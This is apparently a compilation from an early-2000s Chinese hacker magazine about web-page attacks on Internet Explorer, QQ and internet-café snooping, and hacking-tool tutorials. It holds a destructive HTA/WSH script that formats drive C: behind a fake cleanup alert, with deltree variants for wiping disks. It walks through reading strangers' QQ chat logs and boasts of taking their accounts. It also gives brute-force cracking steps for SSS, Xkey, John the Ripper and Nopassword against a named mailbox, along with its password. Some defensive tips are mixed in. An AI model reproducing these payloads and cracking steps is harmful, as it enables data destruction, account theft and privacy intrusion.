“终极”术：用恶意代码迫使 IE 持续地刷新，就可以使 IE 崩溃，需要重新启动它才能使用。下面的一段 JavaScript 代码是带有攻击性的。只要网页里含有这样的代码，就会导致您的浏览器不断地刷新而拒绝服务！笔者做过，IE 不可用，惟有重启 IE。但另外已经打开的窗口不受影响。

```html
<script language="javascript">
self.location = self.location
</script>
```

☞防范措施：在 IE 中设置禁止 JavaScript 的执行，方法见后边。

#### 5、蓝屏攻击

这种攻击只能向 Windows 95/98/98SE 的用户开炮，是利用系统的设备名称处理不当的漏洞，导致蓝屏，在网页中嵌入这一句：

```html
, Windows95/98/98SE
```

用户只要打开有这样代码的网页即死机，只能重新启动。不光是利用网页，还可以通过 Outlook 将有这句的 html 文件当做信纸发信，或者在本地机的“开始”→“运行”里输入“c:\con\con”也可使机器蓝屏。

☞防范措施：这是系统漏洞，惟有打系统补丁。

#### 6、格式化硬盘，破坏用户数据

攻击者还可以利用网页，破坏用户硬盘上的数据，这可算是最残酷的攻击了！下面是部分带有攻击性的代码：

```javascript
scr.Reset();
scr.Path="C:\\WINDOWS\\Start Menu\\Programs\\启动\\hack.hta"; // 将文件写入到你电脑的“启动”目录下，命名为 hack.hta。
scr.Doc="<object id='wsh' classid='clsid:F935DC22-1CF0-11D0-ADB9-00C04FD58A0B'></object>"
wsh.Run('start.exe /m format c: /q /autotest /u'); // 强迫系统不检查硬盘立即执行 format 指令，并使窗口处于最小化状态。够阴险吧？
alert('IMPORTANT：Windows is removing unused temporary files.');
scr.write();
```

还有些恶意代码比较阴险的，如删除文件等。只要修改 wsh.Run 括号里的命令即可，你可以自己编写更具破坏力的代码！如：

```text
start.exe /m deltree /y a:\*.* c:\*.* d:\*.* // 删除用户硬盘上所有的文件，包括 a 盘也不放过！
start.exe /m deltree /y c:\windows\system\*.* // 删除用户 c:\windows\system\ 目录下所有的文件！
```

☞防范措施：

- 1. 将一些有杀伤力的命令，如 format.com 等，改为只有你自己知道的名称。这可以防止那些通过调用系统命令来搞破坏的家伙。但此法对付那个“恶作剧之王”软件是无效的！该程序采取了文件流的方法，检测到系统中没有 format.com 的话，它会生成一个 format.com 的！
- 2. 到微软网站更新浏览器。
- 3. 以上几点都要用 JavaScript 来实现，至于 VBScript 就更不用说了，很多站点声称那里已禁掉它！代码需要 Windows Scripting Host 来解释方能执行，并且是在后台运行的，杀人无形之中，将其彻底删除为上上之策！不过有些特效就无法欣赏了：(
  
  Win98 中的卸载步骤：我的电脑→控制面板→添加/删除程序，点击“Windows 安装程序”，双击“附件”，在“组件”里将“Windows Scripting Host”前面的勾去掉，一直选“确定”即可。

### 四、保护好你的 IP 地址

通俗点说，IP 地址就是您在网络上的“身份证”，是您的计算机区别于网络上其他计算机的标志。揪住了 IP，入侵者就可以直接上门来找您麻烦了。呵呵，怕不？

#### 1、入侵者如何窃取我的 IP？

其实有很多网站或聊天室都可以显示来访者的 IP，临时获取 IP 的方法也有不少：

方法一：打开你机器上的防火墙，获得自己的 IP 地址，如：192.168.0.1，然后到网上去找“域名转向系统”，例如：http://my.yeah.net，申请一个新域名，并指向你的 IP 地址的 7626 端口（此端口为特洛伊木马冰河的监听端口）。如：192.168.0.1:7626，将申请好的网址（如：http://cngale.yeah.net）发给你想要他 IP 的人。骗他访问该网址，防火墙就会发出警报并记录下他的 IP 地址了。

方法二：上述方法虽然有效，但麻烦呀！那么多人用 QQ 聊天，何不利用 QQ 呢？把你的好友骗到“二人世界”里，然后在“开始”→“程序”→“MS-DOS 方式”下输入：

```text
C:\>netstat -n

Active Connections:
Proto  Local Address        Foreign Address      State
TCP    192.168.0.1:1811    202.74.*.*:1098     ESTABLISHED
C:\>
```

其中，“192.168.0.1”是自己的 IP 地址，“202.74.*.*”就是你那位好友的 IP 地址了。

方法三：以上两种方法都是靠“骗”的！如果这样还嫌麻烦，那就装一个 QQ 显示 IP 地址的补丁好了，你用搜索引擎搜搜就知道了，很多的。或者干脆弄个 QQ 的完整版也可以显示好友的 IP 呀。

探测 IP 地址的方法有很多，不能一一列举。但是作为一个拨号上网的用户，被人知道了 IP 地址是很不利的。特别是当你开了共享之后，根本就没有什么安全性可言了。在后边我们会重点讨论这个话题。

#### 2、知道 IP 地址又能怎么样？

这下可到重点了，入侵的第一步就是要知道 IP，一般都是炸你掉线，给你种个木马偷窥你的隐私，或者更倒霉的话（系统千疮百孔、口令弱智、网速又特快），将你做成跳板，“自己”攻击了别人还不知道是怎么一回事呢！呵呵，基于 IP 的攻击网上有很多教程，不多述。

#### 3、如何防范本机泄露 IP 地址

一般的上网用户暴露 IP 地址的途径不外乎两种：浏览网页和上 QQ 聊天。要在网络上绝对隐藏自己的 IP 是不可能的！当然了，你要是拔掉电话线不上网，那就绝对隐藏 IP 了。

我们可以通过设置代理服务器来绕过攻击者的眼睛，这样，入侵者捉到的就是代理的 IP 了，让它对付代理去吧！不过首先你得搜索到网上提供的或者人气很高的网站上运行着的代理服务器的 IP 地址和端口号才行，代理的设置方法如下：

Internet Explorer 设置：打开 IE，选择“工具”→“Internet 选项”→“连接”，选中当前连接，点“设置”，接着会弹出一个对话框，在“使用代理服务器”前打勾，填入代理 IP 和端口后按“确定”即可。

QQ 设置：右击“企鹅图标”→“系统参数”→“网络设置”，在“代理设置”里的“使用 SOCKS5 代理服务器”前打上勾，填入 SOCKS5 代理服务器的 IP 和端口号（一般为 1080），填完点“测试”按钮，若出现“代理服务器工作正常”的框则表示设置成功；否则更换代理。按“确定”后，左击“企鹅”→“上线”即可。如图 2、3 所示。

代理设置暂说常用的两种，有关其它的代理，请大家参考上期《教你怎样做代理》这篇文章。

### 五、小心 QQ 给你造成威胁

现在，腾讯的 QQ 用户数迅猛增加，有了它大家可以很容易地交流情感！然而“水能载舟，亦能覆舟”。由于 QQ 软件本身的漏洞，对用户可以构成很大的威胁。主要的威胁有：

- 1、泄露 IP，给人有可乘之机。
- 2、令你的 QQ 崩溃，给你发一个 0 字节的文件，一连接你的 QQ 就崩溃了。
- 3、将你轰炸，很多黑软都能办到，不用再叙述。
- 4、给你中木马，QQ 木马多如牛毛，而且有的是没有客户端的！比如有人冒腾讯公司发系统信息说你的 QQ 号中了什么奖等，千万别信！

防范措施：

- ① 设置 QQ 代理，隐藏 IP 地址（参考以上方法）。
- ② 利用软件更改 QQ 的端口号，防止对那些固化端口的软件的轰炸。
- ③ 不乱接收陌生人给你的文件。

系统的不安全由很多因素造成，埋怨了那么多系统软件本身的漏洞，我们为何不想想自身的疏忽呢？也许下面所说的情况正有您的份呢！

### 六、不要打开完全共享

您如果开了共享的话，那您的机器就成了“共享主机”了。在网络上的任何人都有可能共享您的文件。对于一个单机用户，没有必要给人共享您的文件！特别是开了“完全共享”，那您就成了 Internet 上的“小内裤”了，是自己往身上抹“调料”的那种，呵呵，谁见了不嘴馋？别以为您设置了访问密码就很安全了，密码过于简单同样没有安全性可言！

完全控制权的手段。

首先，搜索“肉鸡”，确定目标。这一步可以说是任何一种入侵手段的必经之路。如果您的机器开了完全共享，又向人家泄露了 IP，呵呵，不好意思，您完了！搜索的工具很多，大家可以用“网络刺客 II”，因为它有添加/搜索共享主机的功能！只要确定一个 IP 段就可以了，如图 4：

方法和本刊第三期《详述 Win9x 的共享入侵》一文所介绍方法一样，在此不再重复，抓两幅图片给大家演示如图 5、图 6 所示：

☞防范措施：

- 1. 装上防火墙，防止木马（推荐使用天网）。
- 2. 设置足够复杂的共享密码（字母大小写、数字及各种复杂符号混合的 8 位以上的密码）。
- 3. 取消所有共享，如果非要共享不可的话，可以设为“只读”共享。
- 4. 下载共享目录的密码校验 bug 补丁。

### 七、防止病毒入侵

现在的病毒在网络上大肆其行，比较流行的是一些利用微软系统漏洞，通过 E-mail 传播的脚本蠕虫病毒。

☞防范措施：

- 1. 装上最新版的杀毒软件。
- 2. 升级 Windows Scripting Host。
- 3. 少用或不用微软 Outlook 收发邮件。
- 4. 接收邮件中的附件要先查毒后打开，或者先试着用记事本打开。

### 八、小心来历不明的文件，特别是可执行文件！

DOS 批处理文件：*.bat，注册表文件：*.reg，帮助文件：*.hlp，DOS 快捷方式：*.pif，Windows 快捷方式：*.lnk，碎片文件：*.SHS，等等都可以执行如 format 等危险命令，要特别小心。那些 .vbs 的蠕虫病毒程序就更不用说了，要是运行了可执行的木马文件你就更麻烦了。

☞防范措施：

- 1. 不要随便运行来历不明的文件。
- 2. 不要隐藏系统中已知文件类型的扩展名，以便将其识破。

### 九、远离木马，免得惹祸上身

木马很大程度上是由于个人的疏忽造成的（当然了，微软 IE 的 MIME 漏洞也可以给人种植木马）。

另外要注意，最好少到陌生的网站下载木马来玩，没有好报应的（笔者曾经就遇到过这样的事情，本来想下个木马来玩玩别人，却自己中了木马都不知道！）。

☞防范措施：

- 1. 装上防火墙可以说是最保险的。
- 2. 不要随便运行陌生人给你的可执行文件！这些文件通常利用 E-mail 传送，伪装成小游戏、色情图片等。如果你色迷心窍，吃亏的是你自己（确实要运行也要先用杀毒软件查一遍呀）。
- 3. 不要到一些所谓的黑客网站下载软件，小心木马圈套，想当什么黑客却成为人家的牺牲品。

## 网吧上网，鸟不顾己，小心江湖险恶！

上面，笔者试着从各个角度为您打造了一个比较安全的 PC 系统，但是很多人自家没有电脑，不得不出没于各大网吧、机房。在这种情况下，我们又该注意点什么呢？

### 一、QQ 泄密，后果不堪设想

想到到网吧上网的人十个有十一个都会开 QQ 跟 MM 聊天，可是 QQ 也会给您带来一身烦恼哦！上面我们讨论了单机在家拨号上网时 QQ 造成的危害，现在讨论一下网吧里面的情况。

#### 1、不懂保密，查你底细又如何？

大家知道，在机器上登录过 QQ，就会在本地机上生成一个以帐号为名字的目录，里面包含了（加密过的）你的个人资料、好友信息和聊天记录等文件。下面看看人家如何利用这些文件看你的聊天记录。

第一步：选定目标。在 QQ 图标上点右键→属性→查找目标，选定你要看的 QQ 号码，将目录里的 msg.db 拷贝到你的 QQ 目录下覆盖掉你的原有文件。

第二步：登录你的 QQ。按照常规登录你自己的 QQ，若提示你输入密码，就输入你选定的目标的 QQ 号码即可，如图 7：

第三步：打开 QQ 主菜单→档案管理→消息管理，打开消息管理器，如图 8：

第四步：点击“消息管理器”左边的“其它”前面的“+”号，该号所存的聊天记录将全部曝光！如图 9：

以上方法很早就有，可是网吧的 QQ 软件都不太新。笔者在附近七、八个网吧试验都成功，问题还是值得注意的，故放在这里讨论。有人说这是 QQ 的漏洞，其实根本不是什么漏洞！而是 QQ 特有的功能！不知道腾讯公司软件设计师们的用意是什么？

也许你觉得这没什么大不了，不就是偷窥了几个 MM 聊天嘛，让他去看好了！可是，当你在 QQ 上跟你的朋友说了些不能让别人知道的话的时候，现在全部曝光了，你有什么感受？举例：

- 1、我就在网吧里看过许多人给 MM 送靓号的信息，幸运的是那 MM 还没有更改密码，靓号也就当然归我啦。
- 2、还有，你的个人资料也是在里面的，如果你是个老实人将个人资料如实填写的话，被人掌握了会损失惨重的。人家可以获得你的 Email 修改权。
- 3、以生日为密码的话还可以直接取得密码呢。
- 4、如果你是最后一个上 QQ 的人，资料又没删除的话，别人还可以利用 QQ 脆弱的加密机制获取你的密码呢！这是 analysist 发现的，对某些版本有效，至于最新的版本笔者没有亲自实验过！

■防范措施：删除以你号码命名的目录。步骤：在 QQ 图标上点击右键→属性→查找目标，选中你的文件，按住 Shift 键再按 Delete 键永久删除即可。

#### 2、杀机四伏，盗你号码有何难？

删除了这些个人底细就万事大吉了吗？非也！江湖险恶，杀机四伏，还得小心木马呀！在此介绍一个叫“密码截取”的软件，该软件可以截取密码输入框中的密码（如拨号连接、QQ、Outlook、IE 中的密码），并将密码明文保存在用户自定义的文件中，缺省为 c:\password.txt。如果没有截取到密码，密码文件将不存在。运行如图 10：按“确定”后便在后台运行，只要按默认的快捷键 Ctrl+F11 便可将其呼叫出来，如图 11：

要查看截获到的密码，可点击“查看密码”，如图 12：呵呵，怕不？它还可以将截获到的密码送到远程邮箱里面去呢！如图 13：

- 1. 到网吧上网可要防止这种小人！网吧一般都装有杀毒软件，一般是被人关了再种上木马的，你可以运行一次杀毒软件的（但笔者用 LockDown 2000 居然毫无反应！）。
- 2. 到腾讯公司的主页去申请密码保护，就目前来说还是非常安全的。
- 3. 再有就是经常更改密码，争取在别人拿到手之前取回。（但真正做到的能有几个人呢？）

### 二、不删除 Web 记录，绝对是你的错！

你在网上的一举一动都被 IE 记录在案，不删除这些记录就会被别有用心的人利用。案例：

- 1、最常见的就是在论坛匿名发言。笔者是一论坛的坛主，由于雷锋论坛的疏漏，我曾经在网吧里以管理员身份登录过“管理中心”，没想到我第二次（同一天内）到那机器上居然不用密码也可以登录“管理中心”！幸亏没人从中作梗，否则！论坛难逃厄运！
- 2、有些免费信箱也有同样的漏洞。
- 3、更有甚者，有的登录系统账户和密码居然是明文保存的！这不得不注意！

■防范措施：下网后养成清除痕迹的习惯。

- 1. 在 IE 里选择“工具→Internet 选项→常规”。点击“清除历史记录”“删除文件”“删除 Cookies”，弹出对话框一律回答“是”即可，如图 14 所示。
- 2. 选择“工具→Internet 选项→内容→自动完成”，点击“清除表单”“清除密码”。

以上根据本人的一点体会，写下了这篇文章。由于笔者水平有限，不能说得面面俱到，有些地方也不是十分中肯，但多少可以在您网上冲浪时给您减少一分麻烦。网民，一路走好！

## 黑客工具教程

## 黑客法宝 SSS 应用指南

## 一、SSS 简介

Shadow Security Scanner 是一个功能非常强大的黑客工具，由俄罗斯著名程序员 Redshadow 和 Melcosoft 合作编写。程序功能强大，包括端口探测、端口 Banner 探测、CGI/ASP 弱点探测、Unicode/Decode/Printer 探测、*nix 弱点探测、(POP3/FTP) 密码破解、拒绝服务探测、操作系统探测、NT 共享/用户探测……而且对于探测出的漏洞，有详细的说明和攻击方法。程序的主界面如图 1 所示。类似 FrontPage 的操作界面，感觉很亲切。左边的按钮有 Scanner（用来扫描主机）、Password Checks（用来破解密码）、DoS Checks（用来探测对方是否可以 DoS）、Base SDK（可以自己定义漏洞）。SSS 除了对于探测 NT 表现出色，对于 *nix，它也能够探测出不少的漏洞。


图 1

## 二、实例演示

点击左上角的 New Scan Session 按钮，如图 2。我们可以开启一个新的扫描项目。出现选择扫描计划对话框，我们在这里选择 Complete Scan，即完全扫描。按 Next，输入扫描注释，继续 Next，出现“Edit Host”对话框。


图 2

在这里边可以选择要扫描的主机，可以选择某一台主机（用 Add Host 按钮），或者扫描一个 IP 范围（Add IP Zone）。在这里，我们选择 Add Host，输入一个演示地址。选择 Done，完成本次的探测设置。将会出现如图 3 所示的界面。


图 3

接着，我们右键单击刚才添加的主机。在弹出的菜单中单击 Start Scan，如图 4，我们可以观察到状态栏中的数字在变化，说明已经开始扫描了。

扫描过程中，我们可以点击右边蓝色区域中的栏目，然后在下方获得详细的注释。对于端口，会提示你此端口的功能、Banner 信息、所允许使用的一些操作命令；对于漏洞，会提示你关于此漏洞的 CVE 报告编号、漏洞描述、如何修补这个漏洞等等。比如这里一个关于 22 端口的描述：


图 4

```text
FTP Servers: FTP Bruteforce
Port: 22
Description: FTP Server vulnerable bruteforce operations.
Risk Level: Medium 漏洞等级
How To Fix: Update FTP Server or set limit for
USER/PASS if FTP Server supported this option or install other FTP Server.

CVE: GENERIC-MAP-NOMATCH
```

CVE 报告如图 5：


图 5

点击相应的端口给出注释，对于对方是 NT 系统，SSS 还会探测它的共享以及用户，以便于你的进一步探测。

以上，只是 SSS 的一个功能，SSS 除了具有强大的扫描功能，还具有强大的密码扫描功能和 DoS 探测功能。我们再来看一下它的密码扫描功能：


图 6 密码扫描选择对话框

仅看到弹出的选择扫描类型对话框，如图 6 所示，就足以让你对其佩服万分。它可以进行多达 8 种密码破解功能。我们先来看它的 FTP 密码破解功能，选择 FTP，输入 Host IP。单击 Next，下一个对话框你可以选择开启的线程数。线程数多则速度快，而正确度就降低了，反之亦然。对于 MODEM，建议选择 50 个线程。“Auto Suspend if failed to connect to port”也建议你选中，以避免对方已经关机，你还在这里穷扫。下一个对话框中，我们要设置字典。它提供了三种方式：其一，你可以选择用户名文件和字典文件；其二，你可以输入一个固定的用户名并选择一个密码文件；其三，你可以使用用户名和密码在一起的字典，格式为 username:password。在这里，我们选择它的第二个功能，并输入用户名：administator，选择好字典，按 Next。然后将出现密码扫描的界面。按“Start”开始扫描，状态中将报告你现在的扫描速度、已经破解的密码、所需时间等等。已经破解的密码将出现在下面的列表中。


图 7 密码扫描过程

解密功能就介绍到这里，再让我们来看看它强大的 DoS 探测功能。其实探测等于攻击。单击左边的 DoS Checks 按钮，出现第一个对话框，让你选择探测方法。其中提供了 5 种选择，你可以选择其中的一个。进入下一步，输入对方的 IP，选择需要使用的线程数，按 Next，接下来就进入了和密码探测一样的界面。其中按“Start”就可以开始对对方机器进行 DoS 了。

## 三、其他功能概述

在 Base SDK 中可以自定义漏洞，这就增加了 SSS 的可扩展性。Tools 菜单中的 Reports 可以生成一个扫描报告，这样你可以方便地看到扫描的结果。Options 中可以设置线程数、超时时间以及色彩、音效等等内容。Policies 对话框可以让你自定义一些扫描规则，比如只探测 ASP 漏洞，或者探测端口和 CGI 漏洞等等。

SSS 更多的功能在此也就不一一介绍了，大家边用边学吧。熟能生什么来着？

## 字典制作工具——万能钥匙 Xkey

万能钥匙 Xkey 是一款国人自制的软件，利用它可以方便快捷地制作出许多破解工具所需要的词典文件。万能钥匙 XKey 1.1 版本在原有的基础上加入了更新的内容，使运行速度加快，而且还特别增加了计算机和网络常用英文作为字典文件中的单词。

该款软件根据对国内计算机网络用户的刺探分析，并参考计算机安全资料，把词典内容分为电话号码、出生日期、姓名字母、英文数字四个部分，在每一部分都有更详细的设置，可以设置有关参数以生成更加适用的词典。

如果设置之间相互穿插，还可以分别生成相应的词典，在保存词典文件时选择已有词典文件名，可以将新内容追加到原文件中去。它可以根据你的设置生成各种类型的口令，主要分为四类：

- 1. **电话号码**：分为“普通电话”和“移动数字电话或寻呼机”两种，并可以选择不同位数的号码。
- 2. **出生日期**：分为月日、年月、年月日三种，并可选择二位或四位年份和设置年份范围。
- 3. **姓名字母**：分为姓名声母、姓或英文名、中文姓+名、中文姓+名字声母、中文姓+英文名；在姓氏范围中，你可以直接输入某个姓氏或按照人口频度选择姓氏范围。除此之外，你还可选择加上固定前缀、常用数字和出生日期、姓名换位或使用分隔符。
- 4. **英文数字**：此项包括有计算机和网络常用英文（150 个）、其它常用英文（53123 个）、常用数字（175 个）和其它数字（0-9999999）。在生成词典文件之前，你还可以对字典中的字母进行大小写设定和设定词条宽度，并可以根据不同的系统平台对文本文件的换行符进行设定。

在一切设置好后，按“完成”按钮，软件开始生成词典。

如果你所选择的选项过多，在生成字典文件的时候就很慢，而且字典文件的容量会很大。

将该软件安装完毕并运行，出现主界面，如图 1。


图 1

了解了“使用说明”以后，单击“下一步”按钮，进入“电话号码”词典文件设置对话框。


图 2

在该对话框中可以将普通电话、数字移动电话（手机）或寻呼机的号码作为密码，并可以选择不同位数的号码，在“词典长度”状态栏可以即时了解词典长度。这里给大家说明一点：词典的长度将影响词典生成时词典文件的大小。

如果你只是需要使用电话号码生成的词典文件进行破解操作，只需要不断单击“下一步”按钮直至最终生成词典文件。当然，你也可以设置所有的特征生成词典文件，下面我们就按照这个要求继续操作。用鼠标单击“下一步”按钮，来到“出生日期”词典文件设置对话框。


图 3

在该对话框中可以将出生日期分别按照月日、年月、年月日三种进行选择，并可指定年份范围和进行一些设置。

设置妥当后，单击“下一步”按钮，来到“姓名字母”词典文件设置对话框。


图 4

在该对话框中，可以将姓名字母按照姓名声母、姓或英文名、姓+名、姓+名字声母、姓+英文名进行选择。在“姓氏范围”中，你可以直接输入某个姓氏或调整人口频度。

除此之外，你还可选择加上固定前缀、常用数字和出生日期、姓名换位或使用分隔符。一切设置妥当以后，用鼠标单击“下一步”按钮，来到“英文数字”词典文件设置对话框。


图 5

在该对话框中，可以将常用常见的英文、数字作为词典文件中的密码。其中包括：计算机和网络常用英文（150 个）、其它常用英文（53123 个）、常用数字（175 个）和其它数字（0—999999）。选择妥当以后，用鼠标单击“下一步”按钮，终于来到了久违的“生成词典”对话框。


图 6

## 代理猎手使用教程

## 代理猎手的参数设置


图 1

运行代理猎手，选择系统→参数设置，进入图 2 页面。


图 2


图 3

“连接超时时间”指连接到验证地址的时间（秒为单位），因此可设大一些，否则会在网络有问题的时候而错过免费代理验证。

验证超时时间（秒）不宜过大，因为即使找到了诸如 20 秒以上的免费代理，也没有太大用处，连接到代理时间过长。“并发连接数目”指同一时间验证的代理数目（个），可以比喻成：同一时间打开若干浏览器窗口，以节省时间。此项可适当调整，56K 的解调器设为 100，同时还可使用浏览器连接到其它网站进行浏览。“验证设置”可以和“搜索设置”设为一样。其它项目暂不讨论，默认值即可。

选择验证数据设置标签→选添加。

在打开的对话框中，在验证名中可以随意起名。验证数据中有两种选择，先说选择“特征字串”这种情况：在验证地址中输入一个可以用为验证代理服务器的网址，如图 4。这出现说明两个要注意的问题：1）选择一个连接较快的网站地址；2）不要选择 169GUEST 用户直接可以连接的网址，否则验证出来的免费代理有一些可能不能出图。一句话：“验证地址”栏中请填入连接速度快的国外网站地址。


图 4

“特征字串”中填入验证地址页面中 `<title>` 之间的内容，即 `<title>特征字串</title>`。方法是用浏览器连接验证地址，然后察看源文件，复制 `<title>` 之间的内容，粘贴。


图 5

现在说“匹配文件类型”。在填入验证地址后，选“获取”，出现对话框后选“获取”，稍等几秒，即获取匹配文件，选“保存”后，就成为该地址的验证文件。然后“确定”，回到图 5 的对话框。现在点击“>>”，选择刚才保存的验证文件。文件大小即是验证文件的大小，验证大小可设为 1024，如果设大了，会浪费验证时间。

以 Yahoo 网站为例，558 字节正好（文件头部分）。最好每次验证前，更新一次匹配文件，否则匹配文件内容改变，造成验证结果不准。

总之填入足够表达验证文件的内容特点即可。


“代理调度”参数设置中选择“使用代理调度功能”、“启用域名解析缓冲功能”。代理调度监听端口填入需要调度代理的端口类型（80、8080、……）。选择“以下地址不使用代理服务器”，选择添加，169guest 用户填入地址范围 10.0.0.0—10.255.255.255。

“其它设置”标签暂不讨论，默认即可。

若要实现代理调度功能，请按图 7 所示，在代理服务器与调度项交叉处按鼠标右键，选“加入调度”。

以 IE 为例，如图所示，服务器地址栏输入本地地址：127.0.0.1，端口输入要使用的代理端口。注意此端口应与代理猎手参数设置中“代理调度监听”端口相同。

选择所有免费代理，可用组合键“Ctrl+鼠标右键”或“Shift+鼠标右键”进行选择。选择后，点击鼠标右键，出现上图中的选择项，选择“加入调度”。

## 如何使用代理调度功能

代理猎手的“代理调度”功能稳定、设置方便，一般不用使用第三方的代理调度软件，设置后只要在浏览前运行代理猎手就可以了。

下面介绍如下：


此时代理调度标签中的内容如上图。进行如上设置后，就可使用了（请不要忘记在浏览前运行代理猎手）。

## 黑软介绍之破解器

破解方法很多，破解器有多种，下面我们分类介绍：

## 一、穷举法破解器

穷举法：就是从字典里抽出一个字段来和要破解的密码进行对比，直到被解出密码或字典里的字段全部试完为止。下面介绍几个著名的破解器（前三个是国产货）。


图 1

- 1. 网络刺客 II（如图 1）

| 项目 | 说明 |
|---|---|
| 目标地址 | 指的是邮件服务器的地址。例如 pop.163.net、public.east.cn.net |
| 用户名 | 指的是用户帐号。例如：webmaster |
| 字典文件 | 指的是存放着大量可能口令的字典 |
| POP 端口 | 指的是邮件服务器的服务端口，通常是 110 |
| 攻 | 开始从字典中取出口令来对网络猜口令 |
| 停 | 暂停进攻，再按“攻”可继续 |
| 存 | 保存当前的攻击进度，以便下次继续 |
| 取 | 读取攻击进度，按“攻”可继续 |
| 清 | 清除攻击进度，重新从字典首开始，按“攻”可继续 |

其中：

- 2. Email Crack（如图 2）


图 2

| 项目 | 说明 |
|---|---|
| Server | 服务器的 POP3 地址 |
| User list file | 在这里挂上用户名档 |
| Password file | 在这里挂上字典 |
| Try user name | 使用用户的账号作为第一个穷举密码 |
| Thread Number | 同时打开的线程数目，一般对于拨号上网用户，建议设定为 30，破解结果自动记录在 result.txt 文件中。 |

其中：

- 3. Let Me In（如图 3）


图 3

LetMeIn 不但可破解网上用户的密码，也可以破解 Windows 应用程序的密码。

| 项目 | 说明 |
|---|---|
| Setup Keys | 用户名，如 webmaster。其中“~”是模拟按 Enter 键 |
| Delay | 延时时间 |
| Use Password File To Find | 使用字典破解 |
| Selected | 字典个数（自动填写） |
| Select file | 选择字典按钮 |
| Set Number Input Limit Through...To... | 用数字穷举，要求输入字段 |
| Only Input The Key Box Inputed | 只用用户名作密码输入 |
| ID No. Check (Chinese Only) | 身份证号破解器（应该是 Taiwan Only） |
| After Keys | 输入“~”就行了，同样是模拟按 Enter 键 |

其中：

注：LetMeIn 只是一个辅助程序，穷举时必须先用 FTP 或 Telnet 连接到主机。

- 4. John The Ripper（如图 4）：


图 4

John 是破解 Unix 或 Linux 密码档（passwd）的工具，可在 Unix 或 Linux 下工作。

### 用法一、字典破解

在提示符下键入：john -p:passwd -w:wordlist

| password | 密码档（要求绝对路径） |
|---|---|
| wordlist | 字典（要求绝对路径） |

### 用法二、暴力破解

在提示符下键入：john -all -p:passwd

| all | 不要改变（自动生成字典） |
|---|---|
| passwd | 密码档 |

### 使用技巧

在使用中，按 Ctrl+C 即可停止，屏幕显示：

v:18 c:1295458688 t:1.14:28:08 9% c/s:11036 w:oentl-obfil

……

下次只要再键入：john -restore:restore 就可以继续上次没做完的工作。

### 此类软件的两大应用

- 1. 合法使用：可以测试一下自己的密码是否安全；
- 2. 非法使用：破解他人密码。

## 二、查看法破解器

1、SnadBoy's Revelation（如图 5）


图 5

SnadBoy 用法很简单，只需将 Passwd Field 下的十字圈拖到 ***** 密码上，密码就会显示在 Password 下的文本框里。

2、RePwl（如图 6）


图 6

Windows 9X 的所有密码都存在 Windows\*.pwl 文件里。

| PWL file | 挂上 pwl 文件 |
|---|---|
| User name | 用户名 |
| Password | 你要是知道就填，不知道就空着 |
| Charset string | 设置密码类型 |
| SearchPasswordFast | 快速查找密码按钮（不好用） |
| SearchPassword | 查找密码按钮 |

RePwl 虽然是一个穷举密码破解器，但有时在挂上 pwl 文件的同时，找寻密码就在右边的“Cached passwords”里显示出来了，所以我把它划分到这里。

此类软件两大应用：

- 1. 合法使用：察看自己忘记的密码。
- 2. 非法使用：破解他人密码。

## 三、实例破解

用 NOPASSWORD 破解纯数字密码邮箱

常用软件：Nopassword。

试用信箱：linanhua@163.com（密码：800202）

具体步骤：

打开 Nopassword。如图 7：


图 7

## 主题乐园

首先讲破解邮箱的密码。要破解邮箱的密码，首先大家要会设置 POP3。每个网站的邮箱的 POP3 服务器设置都是不一样的。下面举例说明：

破解 limanhua@163.com，关于 POP3 服务器的设置就要到 http://www.163.com 里去找。进入 http://www.163.com，然后在页面的上方找到“免费邮箱@163.com（酷！）”这个链接，点击进入，在里面看到了 POP 服务器的设置。

查找一下，这里邮箱的 POP3 服务器的设置为 pop.163.com，将这个填到 Nopassword 里的“服务器地址”里。下面的“帐号名称”填入用户名 limanhua。

为了节省时间，我们将下限设置为 800000，上限一般不用改变。原理就是：下限→上限。这样的话意思就是：我们探测的密码范围是在 800000→999999 之间。好了，现在点“确定”。进入另一个界面后点击“开始进行攻击”按钮。


…………

……

等着吧。

800202

好了，密码破解出来了。是不是很简单啊？

- 1. 攻击线程参数：当你的网速慢时，请将线程数调低。（有的邮箱的破解线程为 1，否则报错）
- 2. 保存：即断点破解，就是当你一次不能破解所有的密码时，保存一下，然后在下次破解时打开你所保存的这个文件，就可以继续破解了。

下面我在这里说明一下另外的几个有用的选项：

至于破解个人网站（FTP）密码，大体的方法和上面的基本一样。

首先也是要去找相应的服务器设置，但这个是 FTP 的设置，在这里我不具体说明了。然后就是把“服务器类型”选到“FTP”上，其他的和我上面讲的完全一样。

## Nopassword 的优、缺点

优点：这个软件简单，易学、全中文，是个最初级的破解软件。

缺点：1. 对于密码中有字母的（哪怕只有一个），这个软件就破解不出来了。

## 几种扫描器性能比较与初步评价

今天来谈谈扫描器和扫描这个话题，因为我发现目前讨论这个的并不多，而且很多人在这方面存在误区，所以今天我来和大家探讨一下，若是有什么错误或不足的地方，还请大家指正。

关于扫描的重要性，我在这里不想多说，你要入侵网络难道还不知道扫描是什么？关于扫描的原理，我在这里先简单地叙述一下，扫描一般是从端点开始，再检验端口，有的扫描器还会从开的端口入手，进一步探究是否存在服务方面的漏洞。我们知道，端口是一个计算机的入口，我们的入侵往往是通过端口，包括 DDoS，这里面最关键的一步就是端口的扫描。端口扫描一般有显性的和隐性的，显性的就是直接连接端口，看开没开服务，比如流光。隐性的是利用 TCP 3 次握手时不让过程完成，如 Synscan 和 Finscan，这些在一定程度上都可以避开防火墙和隐藏自己。

目前流行的扫描器有国内的流光、Xscan、X-way，以及国外的 Shadow Security Scanner、Superscan、Nmap 等。

